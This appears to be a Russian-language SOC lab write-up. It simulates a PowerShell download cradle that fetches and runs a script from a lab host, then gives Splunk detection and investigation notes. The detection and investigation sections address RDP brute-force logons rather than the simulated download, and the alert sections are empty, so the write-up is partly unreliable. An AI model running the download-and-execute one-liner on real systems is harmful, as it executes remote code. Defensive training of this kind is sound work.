






Для эмитации этой атаки, на kali host'e создадим test.ps1, который будет содержать:

    Write-Output "Malicious simulation"
    whoami
    hostname
    Get-Date

Далее сделаем файл доступным по http (простой и быстрый способ)

    python3 -m http.server 80

запускать эту команду надо будет с той папки, где лежит файл

# 1. Атака
на winclient, используем команду:

    powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString('http://172.16.10.10/test.ps1')"

# 2. Источник логов (Data Source)
Sysmon (EventID 1 — Process Create)

PowerShell Logging (EventID 4104 — ScriptBlock)

Suricata — network layer

# 3. Detection
    index=windows ("<EventID>4625</EventID>" OR "<EventID>4624</EventID>")
    | rex "<EventID>(?<EventCode>\d+)</EventID>"
    | rex "LogonType'>(?<LogonType>\d+)<"
    | rex "TargetUserName'>(?<TargetUserName>[^<]+)<"
    | rex "IpAddress'>(?<IpAddress>[^<]+)<"
    | stats count(eval(EventCode=4625)) as failed 
            count(eval(EventCode=4624)) as success 
            by TargetUserName, IpAddress
    | where failed > 5 AND success > 0

# 4. alert settings

# 5. triggered alert

# 6. Investigation
Т.к. инфраструктура лабораторной ограничена, то опишу свои действия простыми словами:

При обнаружении множественных неудачных попыток входа по RDP (EventCode 4625) с последующим успешным логоном (4624), я бы сначала подтвердил детект, проверив количество неудачных попыток, источник (IP/хост) и целевую учетную запись. Далее я бы определил, был ли успешный вход выполнен с того же источника, что и неудачные попытки, и проанализировал тип входа (LogonType 10 — RDP).

Затем я бы оценил контекст: является ли активность ожидаемой для данного пользователя, используется ли внешний IP, типичное ли время для этого пользователя и наблюдаются ли аналогичные попытки на других учетных записях (признак password spraying). После этого я бы проверил, какие действия были выполнены после успешного входа — запуск процессов (Sysmon EventID 1), возможные команды, сетевые подключения или попытки закрепления.

Проверить идёт ли атака на один аккаунт или несколько:

    index=windows "<EventID>4625</EventID>"
    | rex "TargetUserName'>(?<TargetUserName>[^<]+)<"
    | stats count by TargetUserName
    | sort -count

Проверить действия после входа:

    index=windows EventCode=1
    | search "powershell.exe" OR "cmd.exe"
    | table _time Image CommandLine User

Параллельно я бы проверил масштаб инцидента: есть ли похожая активность на других хостах или учетных записях, чтобы понять, изолированный это случай или часть атаки. В случае подозрительной активности я бы инициировал реагирование: временно заблокировал учетную запись, ограничил доступ с IP-источника (если возможно), изолировал хост и эскалировал инцидент в IR/DFIR команду.

В завершение я бы задокументировал инцидент, указав источник атак, затронутые учетные записи, количество попыток входа, факт успешной аутентификации и последующие действия злоумышленника.

# 7. MITRE ATT&CK mapping
T1059.001 — Command and Scripting Interpreter: PowerShell

T1105 — Ingress Tool Transfer